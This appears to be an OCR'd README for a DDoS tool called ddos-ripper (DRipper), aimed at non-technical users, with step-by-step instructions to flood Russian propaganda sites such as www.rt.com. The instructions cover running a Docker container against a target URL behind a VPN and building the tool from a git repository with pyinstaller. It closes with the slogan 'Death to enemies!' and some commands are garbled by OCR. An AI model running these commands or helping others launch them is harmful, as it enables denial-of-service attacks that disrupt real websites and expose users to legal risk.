 # For non-technical ddosbermans
Instructions on how to fuck up putin propaganda sites:
1. Install Docker Desktop at the following link:
    https://docs.docker.com/desktop/windows/install/
2. Install and enable VPN
3. Start the terminal:
    http://xn--j1a5b.dp.ua/yak-vidkriti-komandnij-ryadok-v-windows-10/
4. Run the following command to scam www.rt.com
    docker run --rm -it nitupkcuf / ddos-ripper: latest www.rt.com
5. To pause the mess and ventilate the house a little, press Ctrl + C

Glory to Ukraine! Death to enemies!

# Docker
1. Install Docker Desktop for your platform:
  - [Windows] (https://docs.docker.com/desktop/windows/install)
  - [Linux] (https://docs.docker.com/engine/install/ubuntu/)
  - [Mac] (https://docs.docker.com/desktop/mac/install)
2. Run command, put your actual url instead of www.abc.com:
```
docker run --rm -it nitupkcuf / ddos-ripper: latest www.abc.com
```

# Run from CLI / sources
Python 3.10

```
git clone https://github.com/nanabanano/runner.git
cd runner
pip3 install pyinstaller
pip3 install -r requirements.txt

# mac
# if pyinstaller command is not found - run "pip3 install pyinstaller" as root
pyinstaller app.py --collect-all dns --add-data = "headers.txt :." --add-data = "DRipper.py :." --onefile

# win
pyinstaller --collect-all dns --add-data "headers.txt ;." --add-data "DRipper.py ;." --onefile app.py

```
### After this see dist folder
